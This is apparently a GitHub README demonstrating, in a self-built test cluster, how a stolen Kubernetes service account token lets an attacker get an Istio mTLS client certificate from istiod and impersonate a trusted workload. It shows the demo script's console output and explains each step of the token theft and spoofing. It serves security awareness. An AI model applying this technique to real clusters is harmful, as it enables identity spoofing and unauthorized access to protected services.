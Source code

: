 # Generating Istio mTLS Client Certs Using Stolen Credentials

Istio service mesh encrypts traffic and validates workload identity using mTLS. In order to populate the sidecar proxies with keys for this use case, the istiod controller contains a certificate authority called citadel, which the sidecar proxies call home to on startup to request client certs. Like many Kubernetes native technologies, access to citadel requires the caller to present a valid Kubernetes service account token. No token, no mTLS client cert.

It is well understood in many contexts that security account tokens should be protected, but (in my experience) it does not seem to be well understood that access to a security account token == ability to spoof identity in the service mesh.

This repo demonstrates the situation.

### Test Setup

The setup contains two namespaces. In the secure namespace is a deployment and service called "victim", and a deployment called "legitclient". An Istio `PeerAuthentication` resource requires all traffic bound for pods in this namespace to be mTLS encrypted (cleartext traffic will be rejected by the sidecar proxies on these pods) and an Istio `AuthorizationPolicy` requires all traffic destined for the "victim" workloads to be identified by the SPIFFE identity `spiffee://cluster.local/ns/secure/sa/legitclient`, which can be read as "this request is coming from the 'secure' namespace and the requesting pod is using the 'legitclient' Kubernetes service account". See [secure.yaml](secure.yaml) and references below for specifics.

![x](foo.png)

### Running The Test

#### Requirements
- a running cluster / valid kubeconfig
- `istioctl install -y` (tested on 1.14 - 1.16)
- openssl
- jq
- [grpcurl](https://github.com/fullstorydev/grpcurl)


#### Do it already!

``` console
$ ./run.sh
 ==  deleting previously generated key and signing request
 ==  deleting previously stolen client cert
 ==  generating a random key and signing request
Generating a 2048 bit RSA private key
..................................+++++
.....................................................................................................................................................................................+++++
writing new private key to 'istio-attack.key'
-----
 ==  'stealing' the service account token from the sidecar proxy of a legit client pod
Forwarding from 127.0.0.1:15012 -> 15012
Forwarding from [::1]:15012 -> 15012
 ==  using service account "legitclient" in namespace "secure" to ask istiod/citadel for a client cert
Handling connection for 15012
./run.sh: line 43: 92868 Terminated: 15          kubectl port-forward svc/istiod -n istio-system 15012:15012
 ==  confirmed that the modulus of our private key matches the modulus of our stolen cert
 ==  istiod has successfully issued us an mTLS client cert!
 ==  copying private key and stolen client cert into attack pod
 ==  attempting to connect to victim service from the attack pod without using stolen credentials
 ==  (we expect connection will fail: reset by peer)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
curl: (56) Recv failure: Connection reset by peer
command terminated with exit code 56

 ==  attempting to connect to victim service from the attack pod using stolen credentials
 ==  (we expect connection will succeed)
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0{
  "headers": {
    "Accept": "*/*",
    "Host": "victim.secure:80",
    "User-Agent": "curl/7.68.0",
    "X-B3-Sampled": "1",
    "X-B3-Spanid": "84f811a00cada672",
    "X-B3-Traceid": "729bc7a2f7786adb84f811a00cada672",
    "X-Forwarded-Client-Cert": "By=spiffe://cluster.local/ns/secure/sa/default;Hash=08e34416bbb9cdcbf0fe6f83c123f664cd4c9b5bfabd1eea558a80a307f1abad;Subject=\"\";URI=spiffe://cluster.local/ns/secure/sa/legitclient"
  }
}
100   450  100   450    0     0  21428      0 --:--:-- --:--:-- --:--:-- 21428
```

#### What is happening?

When the script executed the following steps will take place:
1. a new private key and certificate signing request will be generated
1. the service account token from the sidecar container of the legitclient pod will be "stolen"
1. the stolen service account token will be used to send the csr to istiod/citadel asking for a signed mTLS client certificate
1. citadel will accept the stolen token and sign the csr, returning an mTLS client certificate with the identity data populated by the claims present in the stolen token
1. we will attempt to plaintext curl the victim service from within the attack pod in the attack namespace, since mTLS is required this connection will be rejected by the receiving sidecar proxy on the victim pod (reset by peer)
1. we will attempt to curl the victim service from within the attack pod in the attack namespace, but this time using the private key and signed client certificate, which will be authenticated by the receiving sidecar proxy on the victim pod, and a connection established using the identity of the legitclient in the secure namespace.

Note that upon successful authentication of a valid inbound mTLS connection, the istio-proxy will populate an HTTP response header called `X-Forwarded-Client-Cert` (or "XFCC") with both the receiving / server side identity (indicated with "By=spiffe...") and the sending / client side identity (indicated with "URI=spiffe..."). By examining this header you can verify that the connection was established using the stolen identity.

### References

https://istio.io/latest/docs/reference/config/security/authorization-policy/#Source
https://github.com/istio/istio/blob/master/pkg/istio-agent/README.md
https://www.envoyproxy.io/docs/envoy/latest/configuration/http/http_conn_man/headers#x-forwarded-client-cert
https://gist.github.com/howardjohn/b9c031de3fb32eeff4076c6ef139e769
